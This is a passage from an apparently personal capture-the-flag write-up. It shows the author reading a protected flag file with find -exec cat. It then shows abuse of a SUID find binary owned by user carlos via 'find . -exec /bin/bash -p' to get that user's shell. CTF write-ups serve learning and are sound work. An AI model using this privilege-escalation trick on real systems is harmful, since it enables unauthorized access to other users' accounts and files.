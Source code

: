 And as expected, we can't simply get the flag here, but as i tried the simple command:

```bash
find / -name user.txt 2>/dev/null
/home/carlos/user.txt
```

So methinks that there is a way to get in there, even though i have no permissions to actually traverse to it. To get the flag i did the simple 

```bash
find / -name user.txt 2>/dev/null -exec cat {} + ;
```

And got the flag. After this, i searched for any file being from carlos and easy enough

```bash
ls -la /usr/bin/find
-rwsr-xr-x 1 carlos carlos 320160 Feb 18  2020 /usr/bin/find
```

:) 

So then simply do the following:

```bash
find . -exec /bin/bash -p \;
```

(the -p is so it does not drop privileges, and the \; to avoid errors when interpreting by shell).

So now we are effectively [[carlos]]
